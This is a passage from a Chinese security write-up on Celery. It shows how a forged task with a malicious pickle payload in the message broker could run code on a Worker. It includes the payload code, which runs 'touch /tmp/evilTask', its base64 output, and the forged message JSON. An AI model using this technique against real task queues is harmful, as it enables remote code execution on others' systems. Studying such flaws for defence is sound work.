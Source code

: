 熟悉 Celery 的人一眼就知道上面的这些参数信息都是在下发任务时进行指定的：

```
id => 任务的唯一ID
task => 需要执行的任务
args => 调用参数
callback => 任务完成后的回调
...
```

这里详细任务参数就不进行说明了，刚刚说到了消息队列代理中存储的任务信息是用 Python 内置的 `pickle` 模块进行序列化的，那么如果我恶意插入一个假任务，其中包含了恶意构造的序列化数据，在 Worker 端取到任务后对信息进行反序列化的时候是不是就能够执行任意代码了呢？下面就来验证这个观点（对 Python 序列化攻击不熟悉的可以参考下这篇文章[《Exploiting Misuse of Python's "Pickle"》](https://blog.nelhage.com/2011/03/exploiting-pickle/)）

刚刚测试和分析已经得知往 `celery` 队列中下发的任务，`body` 最终会被 Worker 端进行解码和解析，并在该例子中 `body` 的数据形态为 `pickle.dumps(TASK).encode('base64')`，所以这里可以不用管 `pickle.dumps(TASK)` 的具体数据，直接将恶意的序列化数据经过 base64 编码后替换掉原来的数据，这里使用的 Payload 为：

```python
import pickle

class Touch(object):
    def __reduce__(self):
        import os
        return (os.system, ('touch /tmp/evilTask', ))
print pickle.dumps(Touch()).encode('base64')
```

运行一下得到具体的 Payload 值：

```
(env)➜  demo python touch.py
Y3Bvc2l4CnN5c3RlbQpwMAooUyd0b3VjaCAvdG1wL2V2aWxUYXNrJwpwMQp0cDIKUnAzCi4=
```

将其替换原来的 `body` 值得到：

```json
{
 'body': 'Y3Bvc2l4CnN5c3RlbQpwMAooUyd0b3VjaCAvdG1wL2V2aWxUYXNrJwpwMQp0cDIKUnAzCi4=',
 'content-encoding': 'binary',
 'content-type': 'application/x-python-serialize',
 'headers': {},
 'properties': {
                'body_encoding': 'base64',
                'correlation_id': '73b9cafe-1c8d-4ff6-b7a8-49b60bff14ff',
                'delivery_info': {
                                  'exchange': 'celery',
                                  'priority': 0,
                                  'routing_key': 'celery'
                                  },
                'delivery_mode': 2,
                'delivery_tag': '0ad4f731-e5d3-427c-a6d6-d0fe48ff2b09',
                'reply_to': 'b6c304bb-45e5-3b27-95dc-29335cbce9f1'
               }
}
```
